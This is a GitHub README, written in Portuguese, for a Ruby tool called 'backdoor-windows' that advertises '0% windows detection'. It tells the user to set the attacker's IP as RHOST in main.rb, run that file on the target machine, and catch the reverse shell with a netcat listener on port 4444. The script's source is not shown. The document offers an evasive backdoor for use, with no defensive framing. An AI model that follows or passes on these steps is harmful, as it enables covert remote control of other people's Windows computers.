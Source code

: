 # 🦑 backdoor-windows
 
![GitHub repo size](https://img.shields.io/github/repo-size/DioBruh/backdoor-windows?style=for-the-badge)
![GitHub language count](https://img.shields.io/github/languages/count/DioBruh/backdoor-windows?style=for-the-badge)
![GitHub forks](https://img.shields.io/github/forks/DioBruh/backdoor-windows?style=for-the-badge)
![Bitbucket open issues](https://img.shields.io/bitbucket/issues/DioBruh/backdoor-windows?style=for-the-badge)
![Bitbucket open pull requests](https://img.shields.io/bitbucket/pr-raw/DioBruh/backdoor-windows?style=for-the-badge)
 
<p>
  <img src="https://i.pinimg.com/originals/8d/bb/fc/8dbbfcd986821d26a8c09ace36045c0f.png"width=300px>
</p>

<p>
  <img src="https://camo.githubusercontent.com/7f611eb7fa49f2b2cf006f5164f75e1b4fafd3d967bfe0b00b717d3a10ebd44d/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f527562792d4343333432443f7374796c653d666f722d7468652d6261646765266c6f676f3d72756279266c6f676f436f6c6f723d7768697465"
</p>

> Simple backdoor with 0% windows detection
  
## 💻 Pré-requisitos
* Ultima versão do `Windows`
* Ultima versão do `Ruby` instalado.
  
  ## ☕ Utilização
`Clone` o repositorio usando:

```
git clone https://github.com/DioBruh/reverse-shell/
```

<span>Exporte o ip da maquina atacante para esta linha no arquivo <a href="https://github.com/DioBruh/backdoor-windows/blob/main/main.rb">main.rb</a></span>

```ruby
RHOST = '' # Aqui o seu ip.
```

<span>Caso você não saiba seu ip. Para pegar o ip da maquina:"</span>

```bash
ifconfig
```
  
<p>
  <img src="https://github.com/DioBruh/reverse-shell/blob/main/images/ifconfig.png" width="600px;">
</p>

## 💻 Inicio
Você vai precisar de 2 máquinas.

* Inicie o `arquivo` <a href="https://github.com/DioBruh/backdoor-windows/blob/main/main.rb">main.rb</a>Na maquina alvo.<br>
* Inicie uma `escuta` no seu pc escutando a porta 4444 com o comando ```nc -lvnp 4444```
* Aguarde a `Conexão` ser efetuada.
